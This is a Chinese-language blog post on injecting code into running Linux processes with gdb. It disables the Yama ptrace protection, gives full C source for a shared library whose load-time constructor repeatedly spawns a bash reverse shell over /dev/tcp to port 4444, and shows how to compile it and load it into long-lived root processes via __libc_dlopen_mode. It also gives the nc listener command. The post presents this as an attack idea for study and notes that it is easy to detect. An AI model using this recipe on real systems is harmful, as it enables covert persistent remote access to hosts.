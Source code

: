 ```yaml
---
layout: post
title:  "使用gdb注入进程"
date:   2018-03-05 11:30:00
categories: 技术学习
tags: [gdb]
---
```


<!-- more -->

### 注入步骤

（1）linux 中的Yama模块会禁用ptrace-based代码注入，需要将其关闭

```
echo 0 > /proc/sys/kernel/yama/ptrace_scope # 允许任何进程注入代码到相同用户启动的进程中,root用户可以注入所有进程

echo 2 > /proc/sys/kernel/yama/ptrace_scope # 只允许root用户注入代码

```
以上命令需要root用户来执行，所以方式可以作为一种思路，实战中有限制。

（2） 要注入的代码callback.c：

```
#include <pthread.h>
#include <stdlib.h>
#include <unistd.h>

#define SLEEP  120                    /* Time to sleep between callbacks */
#define CBADDR "127.0.0.1"           /* Callback address */
#define CBPORT "4444"                 /* Callback port */

/* Reverse shell command */
#define CMD "echo 'exec >&/dev/tcp/"\
            CBADDR "/" CBPORT "; exec 0>&1' | /bin/bash" //进行反向shell

void *callback(void *a);

__attribute__((constructor)) /* Run this function on library load */
// 在动态库加载之后运行该函数
void start_callbacks(){
        pthread_t tid;
        pthread_attr_t attr;

        /* Start thread detached */
        if (-1 == pthread_attr_init(&attr)) {
                return;
        }
        if (-1 == pthread_attr_setdetachstate(&attr,
                                PTHREAD_CREATE_DETACHED)) {
                return;
        }

        /* Spawn a thread to do the real work */
        pthread_create(&tid, &attr, callback, NULL); //创建线程
}

/* callback tries to spawn a reverse shell every so often.  */
void *
callback(void *a)
{
        for (;;) {
                /* Try to spawn a reverse shell */
                system(CMD);
                /* Wait until next shell */
                sleep(SLEEP);
        }
        return NULL;
}

```

编译成动态链接库：
```
cc -O2 -fPIC -o libcallback.so ./callback.c -lpthread -shared
```

（3）切换到root用户，列出root用户进程

```
ps -fxo pid,user,args | egrep -v ' \[\S+\]$'
```

选择想要注入的进程pid，使用gdb进行注入，这里选择pids值较低的，因为值越低代表运行的时间越早，选择长期运行的进程，因为这些进程不容易被kill。

```
echo 'print __libc_dlopen_mode("/root/libcallback.so", 2)' | gdb -p pid
```

用gdb打开进程，并且用__libc_dlopen_mode打开要注入的动态链接库。使用GDB的print命令，以方便取函数的返回值。将它回显到GDB的标准输入中，它会引起GDB退出，就省得使用quit命令了。

（4）开启另外的终端，监听本地的4444端口

```
nc -nvl 4444 
```

### 注入效果

![](../image/2018-03-15-使用gdb注入进程/1.jpg)

这种攻击方式容易被检测，会有落地文件，内存中也可以查看出来，但是可以作为一种攻击思路学习。

### 参考链接

https://magisterquis.github.io/2018/03/11/process-injection-with-gdb.html

